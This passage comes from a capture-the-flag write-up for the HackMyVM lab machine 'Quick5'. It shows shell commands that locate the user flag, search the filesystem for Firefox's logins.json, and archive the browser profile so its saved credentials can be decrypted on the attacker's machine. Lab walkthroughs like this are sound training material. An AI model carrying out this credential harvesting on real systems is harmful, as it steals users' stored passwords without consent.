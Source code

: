 ```bash
drwxr-xr-x  2 andrew andrew  4096 Feb 20 12:14 Pictures
-rw-r--r--  1 andrew andrew   807 Jan  6  2022 .profile
drwxr-xr-x  2 andrew andrew  4096 Feb 20 12:14 Public
-rw-rw-r--  1 andrew andrew    66 Feb 20 12:26 .selected_editor
drwx------  3 andrew andrew  4096 Feb 20 15:07 snap
drwx------  2 andrew andrew  4096 Feb 20 11:56 .ssh
-rw-r--r--  1 andrew andrew     0 Feb 20 11:58 .sudo_as_admin_successful
drwxr-xr-x  2 andrew andrew  4096 Feb 20 12:14 Templates
-rw-r-----  1 andrew andrew  5751 Feb 20 12:25 user.txt
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-clipboard-tty2-control.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-clipboard-tty2-service.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-draganddrop-tty2-control.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-draganddrop-tty2-service.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-hostversion-tty2-control.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-seamless-tty2-control.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-seamless-tty2-service.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-vmsvga-session-tty2-control.pid
-rw-r-----  1 andrew andrew     5 Mar  1 16:20 .vboxclient-vmsvga-session-tty2-service.pid
drwxr-xr-x  2 andrew andrew  4096 Feb 20 12:14 Videos


```

The user flag is found in the home directory of Andrew. We should capture the flag and continue enumerating.

![image](/assets/img/WriteUp/HackMyVM/Quick5/Pasted image 20240215102653.png){: width="700" height="400" }


Since this is a workstation (yes something different as a server), we should look for files that might contain passwords. One of the files we should look for is `logins.json`. This is used to store credentials in a browser. In this case for Firefox. Depending on the operating system the location might be different. We should search for this file.
```bash
andrew@quick5:~$ find / -type f -name logins.json 2> /dev/null
find / -type f -name logins.json 2> /dev/null
/home/andrew/snap/firefox/common/.mozilla/firefox/ii990jpt.default/logins.json
andrew@quick5:~$ cd /home/andrew/snap/
cd /home/andrew/snap/
```
We have found the location of the file. Now we should create an archive of the Firefox folder. This will help us submitting the file to our machine so we can decrypt the credentials.
```bash
andrew@quick5:~/snap$ tar -czvf firefox.tar.gz firefox
tar -czvf firefox.tar.gz firefox
firefox/
firefox/3779/
firefox/3779/.local/
firefox/3779/.local/share/
firefox/3779/.local/share/glib-2.0/
firefox/3779/.local/share/glib-2.0/schemas/
firefox/3779/.local/share/themes
firefox/3779/.local/share/icons/
firefox/3779/.last_revision
firefox/3779/.config/
firefox/3779/.config/gtk-3.0/
firefox/3779/.config/gtk-3.0/gtk.css
firefox/3779/.config/gtk-3.0/settings.ini
firefox/3779/.config/gtk-3.0/bookmarks
firefox/3779/.config/ibus/
firefox/3779/.config/ibus/bus
firefox/3779/.config/user-dirs.locale
firefox/3779/.config/user-dirs.dirs.md5sum
firefox/3779/.config/user-dirs.dirs
firefox/3779/.config/dconf/
```